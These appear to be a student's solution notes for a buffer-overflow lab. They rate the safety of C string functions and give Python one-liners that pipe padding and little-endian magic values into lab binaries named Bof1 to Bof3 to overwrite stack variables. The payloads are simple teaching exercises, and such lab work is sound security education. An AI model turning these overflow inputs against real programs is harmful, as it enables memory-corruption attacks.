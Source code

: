 # Presentation + Variation 1
## Exercise 3a
```
strcat() --- Not safe, vulnerable to overflow attacks.
gets() -- Very dangerous, please never use.
strncat() --- Better version of strcat()
fgets() --- The safe version of gets()
sprintf() --- Does not check buffer boundaries. Overflows are possible.
puts() --- Looks like gets(), but not particularly dangerous. Automatically appends newline.
printf() --- Can be dangerous, be aware of format string vulnerabilities when used.
fputs() --- The newer version of puts(). No new line.
```


## Exercise 3b
`python -c 'print 30*"A"' |./Bof1`


# Endianness, Variation 2
## Exercise 3c
`python -c 'print 10*"A" + "\xbe\xba\xfe\xca"' |./Bof2`

## Exercise 3d
`python -c 'print 28*"A" +  "\xef\xbe\xad\xde"' | ./Bof3`

# Instruction pointer, Pro
## Exercise 3e

## Exercise 3f


    
   